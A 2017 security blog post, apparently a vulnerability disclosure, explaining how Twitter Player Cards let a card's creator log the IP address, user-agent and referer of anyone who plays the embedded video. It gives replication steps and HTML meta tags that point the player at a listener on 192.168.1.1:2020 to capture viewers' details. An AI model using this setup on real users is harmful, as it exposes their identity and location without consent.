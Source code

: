```yaml
---
layout:     post
title:      "Twitter Player Cards Vulnerability"
subtitle:   "Watching a video on Twitter maybe put your PC or phone in a risk"
date:      2017-02-02 21:41:53
author:     "Mohammed Ali"
category: Web-Security
---
```


## Summary

Twitter allows the embedding of videos in a tweet via [Player Cards](https://dev.twitter.com/docs/cards/types/player-card). The problem is in the playing method of the video: currently, it uses a sandbox (`iframe`)  to play the embedded video(s) even when this might be protected against [Cross-site scripting (XSS)](https://en.wikipedia.org/wiki/Cross-site_scripting), still being unsafe because it doesn't protect **HTTP Request Sender**  information such as the **IP Address, User-Agent, and the referer**.
> A lot of Twitter users used to use a VPN to keep these safe from Twitter himself, will they agreed to share them with 3rd-part and this 3rd-part could be anyone

The attacker can embed a link to a request logger or can listen to connections in order to get the IP address of the video viewer.

## Replication Steps

#### Step 1: Adding the pertinent Twitter meta tags to your page
You need to add some Twitter specific meta tags to your page to enable Twitter Player Cards.

|Name|Content|
|--- |--- |
|twitter:card|Type of Twitter card; Must be set to a value of “player”|
|twitter:title|The title of your content as it should appear in the card|
|twitter:site|The Twitter @username the card should be attributed to|
|twitter:description|Description of the content (optional)|
|twitter:player|Listener or Request Logger URL **Must be HTTPS URL**|
|twitter:player:width|Width of IFRAME specified in twitter:player in pixels|
|twitter:player:height|Height of IFRAME specified in twitter:player in pixels|
|twitter:image|Image to be displayed in place of the player on platforms that don’t support iframes or inline players; you should make this image the same dimensions as your player|

Here is a example with a listener in 192.168.1.1:2020:

```html
<meta name="twitter:card" content="player" />
<meta name="twitter:title" content="Twitter cards vulnerability" />
<meta name="twitter:description" content="Twitter cards vulnerability allows to get the video viewer IP, Listen to 192.168.1.1:2020 on your machine then play the video you will be surprised" />
<meta name="twitter:player" content="https://192.168.1.1:2020" />
<meta name="twitter:player:width" content="360" />
<meta name="twitter:player:height" content="203" />
<meta name="twitter:image" content="https://upload.wikimedia.org/wikipedia/de/thumb/9/9f/Twitter_bird_logo_2012.svg/154px-Twitter_bird_logo_2012.svg.png" />
```
